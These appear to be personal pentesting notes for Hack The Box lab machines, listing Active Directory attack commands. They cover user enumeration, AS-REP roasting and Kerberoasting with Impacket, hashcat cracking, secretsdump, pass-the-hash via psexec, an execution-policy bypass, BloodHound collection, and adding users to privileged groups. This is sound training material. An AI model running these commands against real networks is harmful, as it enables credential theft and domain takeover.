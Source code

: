# Tools

## Crackmapexec

```bash
crackmapexec smb <IP> -u <username(s)> -p <password(s)>

crackmapexec winrm <IP> -u <username(s)> -p <password(s)>
crackmapexec winrm <IP> -u <username(s)> -p <password(s)> -X "whoami"  # Run a command
```

## Kerbrute

Identify potential valid users

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrato, guest,

```

## Impacket

#### GetADUsers

Queries target domain for users data

```bash
GetADUsers.py -all -dc-ip <IP> active.htb/svc_tgs   # Will need account creds
```

#### GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
GetNPUsers.py <DOMAIN.LOCAL>/administrator  # use other known usernames too
# Look for user/hash output

GetNPUsers.py -dc-ip <IP> -request 'htb.local/'
# Look for user/hash output
GetNPUsers.py -dc-ip <IP> -request 'htb.local/' -format hashcat  # Put it in hashcat format in prep to crack
# Hashcat Crack
hashcat -m 18200 hash.txt rockyou.txt -r rules/InsidePro-PasswordsPro.rule
# If cracked...
crackmapexec smb <IP> -u <user> -p <password>  # Look for Pwn3d!
crackmapexec smb <IP> -u <user> -p <password> --shares  # Check for SMB shares to access
```

#### GetUserSPNs

Queries target domain for SPNs that are running under a user account

```bash
GetUserSPNs.py -request -dc-ip <IP> active.htb/svc_tgs
# Check for kerberoasted output
# Crack found hashes then try to psexec
```

#### secretsdump

Performs various techniques to dump secrets from the remote machine without executing any agent there.

```bash
secretsdump.py htb.local/<username>@<IP>
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## PowerView

Cheat Sheet - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Setup

```powershell
# Navigate to the directory PowerView is in
powershell -ep bypass  # load a powershell shell with execution policy bypassed
. .\PowerView.ps1  # import the PowerView module
```

### Example

```powershell
Get-NetComputer -fulldata | select operatingsystem  # gets a list of all operating systems on the domain
Get-NetUser | select cn  # gets a list of all users on the domain
Get-NetGroup  # Get groups
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  # Get Kerberoastable user from a specified group
```

## evil-winrm

#### Connection

```bash
evil-winrm -u <user> -p <password> -i <IP>
```

#### Upload File to Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
Evil-WinRM PS C:\Users\FSmith\Documents> .\winPEAS.exe
```

#### Download From from Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> download 123_BloodHound.zip
```

## Bloodhound / Sharphound

### Sharphound

Copy sharphound.exe to the target and run to gather information.

```powershell
.\SharpHound.exe -c all
# Will output a zip file to copy back to Kali

# Running remotely in PowerShell
.\SharphHound.exe -c all -d active.htb --domaincontroller <IP>
```

### Bloodhound

Run Bloodhound (and neo4j) then import zip file created by Sharphound

```bash
# Run neo4j first
sudo neo4j console/start
# Run Bloodhound
bloodhound --no-sandbox

# After importing, search on what you have owned
# Ex: search on username, right click and mark as owned
# Then navigate to Queries and look at Shortest Paths
# Look at Service accounts/Account Operators which have special permissions create accounts and put htem in different groups
# Ex: Create new user and add them to a group that has higher permissions; can't be Administrator gourp
net user <username> <password> /add/ domain
net group "Exchange Windows Permissions"  # Check for group members
net group "Exchange Windows Permissions" /add <username>  # Add user to group in quotes
# Then back in Bloodhound, right click group added (graph line) and look at Abuse Info.
# Will most likely use PowerView for the Abuse
```

#### bloodhound.py

```bash
python3.8 bloodhound.py -ns <IP> -d intelligence.htb -dc dc.intelligence.htb -u <username> -p <password> -c All
# Start neo4j an dupload the output to Bloodhoun
```

### neo4j

```bash
# neo4j new password/forgot password
locate no4j | grep auth
rm /usr/share/neo4j/data/dbms/auth
neo4j console
# Reset password
```
